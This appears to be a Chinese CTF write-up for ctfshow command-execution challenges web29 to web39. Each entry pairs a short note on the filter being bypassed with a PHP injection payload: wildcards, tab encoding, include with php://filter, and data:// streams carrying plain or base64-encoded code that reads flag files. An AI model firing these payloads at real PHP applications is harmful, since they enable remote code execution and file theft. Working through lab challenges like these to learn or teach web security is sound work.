 ```yaml
---
layout: post
title: ctfshow-命令执行wp
date: 2021-02-05
tags: ["web"]
---
```


[toc]

## web29

通配符绕过

    ?c=system("tac fla*");

## web30

过滤system，用exec()

    ?c=echo exec("cat fla*");

## web31

过滤空格，%09绕过

    ?c=passthru("tac%09fla*");

## web32-36

过滤分号。
include可以不用括号，然后末尾用?>截断

    ?c=include$_GET["fx"]?>&fx=php://filter/read=convert.base64-encode/resource=flag.php

## web37

包含文件，过滤flag.用文件流读取。

    c=data://text/plain,<?php system("cat fla*");?>

## web38

过滤php，base64一下

    c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

## web39

后面字符串组装.php，但是问题不大，data流读取的时候php语句已经执行完了。

    c=data://text/plain,<?php system("cat fla*");?>
